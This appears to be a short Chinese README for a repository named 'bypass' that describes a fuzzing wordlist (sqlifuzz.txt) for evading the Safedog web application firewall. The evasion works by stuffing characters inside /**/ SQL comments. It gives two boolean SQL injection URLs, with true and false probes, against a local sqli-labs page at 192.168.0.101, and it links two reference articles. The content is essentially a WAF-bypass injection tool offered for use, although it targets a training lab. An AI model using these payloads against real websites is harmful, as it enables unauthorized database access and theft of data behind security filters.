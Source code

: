 # bypass
安全狗bypass

sqlifuzz.txt 文件内容
主要是在注释符/**/ 中添加其他字符，用来绕过安全狗waf

使用 
http://192.168.0.101/Less-1/?id=1' and/*/!/%%%*/1=1 -- - 
http://192.168.0.101/Less-1/?id=1' and/*/!/%%%*/1=2 -- -

参考文章：

```
https://johnfrod.top/%E5%AE%89%E5%85%A8/%E6%97%A0%E5%88%97%E5%90%8D%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87information_schema/
https://blog.csdn.net/qq_36618918/article/details/129265271
```
